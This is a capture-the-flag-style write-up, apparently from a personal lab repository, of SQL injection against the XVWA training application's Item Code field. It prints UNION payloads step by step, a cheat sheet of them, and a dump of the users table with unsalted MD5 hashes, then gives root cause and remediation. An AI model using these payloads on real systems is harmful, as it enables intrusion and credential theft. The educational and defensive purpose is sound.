# XVWA - SQL Injection (Error Based)

## Overview
XVWA has a built-in "SQL Injection - Error Based" module under Attacks. It
takes an Item Code and runs it straight into a backend query without any
sanitization. Since the app returns detailed database error messages, it's
a perfect target to walk through a full error-based UNION SQL injection —
starting from just breaking the query, all the way to dumping user
credentials from the database.

**Target:** XVWA — SQL Injection (Error Based) module
**Vulnerability:** SQL Injection (Error Based / UNION Based)
**Field affected:** Item Code search field

---

## Step 1: Confirming the Injection

I started by throwing a single quote into the Item Code field to see if it
broke the query:

```
1'
```

This threw a fatal error — `Call to a member function fetch_assoc() on a
non-object` — which confirms the input is going directly into the SQL
query without being escaped.



I also tried a double quote just to compare behavior:

```
1"
```

No error this time — meaning the query is quoted with single quotes, not
double quotes, on the backend.



Going back to a single quote followed by a double quote confirmed the same
break as the first test:

```
1'"
```



And closing it out with two double quotes together showed no error,
reinforcing that the vulnerable character is the single quote:

```
1""
```


---

## Step 2: Finding the Number of Columns

Before a UNION-based injection works, the number of columns in the
original query has to match. I used `ORDER BY` first to binary-search the
column count (not shown), then confirmed it with a UNION SELECT of 7
dummy columns:

```
1' UNION SELECT 1,2,3,4,5,6,7#
```

This worked and the page reflected back Item Code, Item Name, Description,
Category, and Price using the column positions I fed it — confirming the
query has 7 columns and columns 2, 4, 5, 6, and 7 are the ones actually
rendered on the page.



---

## Step 3: Extracting Database Info

With a working UNION injection, I replaced one of the numbered columns
with `database()` to pull the current database name:

```
1' UNION SELECT 1,2,3,4,database(),6,7#
```

Result: **xvwa**



Next, I grabbed the MySQL version using `version()`:

```
1' UNION SELECT 1,2,3,4,version(),6,7#
```

Result: **5.5.50-0ubuntu0.14.04.1** (also confirms it's running on Ubuntu 14.04)



---

## Step 4: Enumerating Tables

Since MySQL exposes schema info through `information_schema`, I pulled the
list of table names in the database:

```
1' UNION SELECT 1,2,3,4,table_name,6,7 from information_schema.tables#
```

This returned every table name, one per row — starting with MySQL's own
system tables (`CHARACTER_SETS`, `COLLATIONS`, `COLUMNS`, `ENGINES`,
`GLOBAL_STATUS`, `PARTITIONS`, `PLUGINS`, `PROCESSLIST`, `ROUTINES`,
`SCHEMATA`, etc.) and eventually landing on the application's own tables.







Scrolling to the end of the results, I found the actual application
tables: `threads`, `caffaine`, `comments`, and — the interesting one —
**`users`**.



---

## Step 5: Enumerating Columns

With the `users` table identified, I queried `information_schema.columns`
to list every column name in the database:

```
1' UNION SELECT 1,2,3,4,column_name,6,7 from information_schema.columns#
```



To narrow it down to just the `users` table, I filtered the query:

```
1' UNION SELECT 1,2,3,4,column_name,6,7 from information_schema.columns WHERE table_name = 'users'#
```

This returned exactly three columns: **uid**, **username**, **password**.



---

## Step 6: Dumping the Data

With the table and column names confirmed, I used `group_concat()` to pull
all three columns combined into a single readable string, for every row in
the `users` table:

```
1' UNION SELECT 1,2,3,4,group_concat(uid,0x3a,username,0x3a,password),6,7 from users#
```

This dumped the full user table in one shot:

```
1:admin:21232f297a57a5a743894a0e4a801fc3
2:xvwa:570992ec4b5ad7a313f5dc8fd0825395
3:user:25890deab1075e916c06b9e1efc2e25f
```

The passwords are stored as MD5 hashes (unsalted), which are trivially
crackable — `21232f297a57a5a743894a0e4a801fc3` is the MD5 hash of `admin`.



---

## Full Query Reference

Here's the complete sequence of payloads used from start to finish, kept
together as a quick reference / cheat sheet:


```sql
SELECT * FROM CAFFAINE WHERE ITEMCODE='1''';
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' ORDER BY 1#';  -> 7 columns
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7#';
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,database(),6,7#'; -> xvwa
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,user(),3,4,version(),6,7#'; -> root@localhost, 5.5.50-0ubuntu0.14.04.1

TABLES, COLUMNS -> DATA
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,table_name,6,7 from information_schema.tables#'; -> users
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,column_name,6,7 from information_schema.columns where table_name='users'#'; -> uid, username, password
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,group_concat(uid,0x3a,username,0x3a,password),6,7 from users#';
-> 1:admin:21232f297a57a5a743894a0e4a801fc3,2:xvwa:570992ec4b5ad7a313f5dc8fd0825395,3:user:25890deab1075e916c06b9e1efc2e25f
```

---

## Root Cause

The backend query is built by directly concatenating user input, roughly:

```sql
SELECT * FROM caffaine WHERE itemcode='<input>'
```

Because the input isn't parameterized or escaped, a single quote is enough
to break out of the string literal, and from there UNION-based injection
lets an attacker pull data from any table in the database — including
`information_schema`, which exposes the entire schema.

---

## Impact
- Full read access to the database via UNION-based injection
- Database name, version, and OS details exposed
- Complete dump of the `users` table, including password hashes
- Weak hashing (unsalted MD5) means dumped passwords can be cracked almost instantly with rainbow tables

## Recommendation
- Use parameterized queries / prepared statements — never concatenate user input into SQL
- Apply strict input validation (Item Code should only ever be numeric)
- Disable detailed SQL error messages in production; log them server-side instead
- Hash passwords with a strong, salted algorithm (bcrypt, Argon2) instead of plain MD5
- Apply least-privilege DB accounts so the app user can't query `information_schema` or unrelated tables

---

## Notes
This was tested against XVWA (Xtreme Vulnerable Web Application) in a
local lab environment purely for learning purposes.
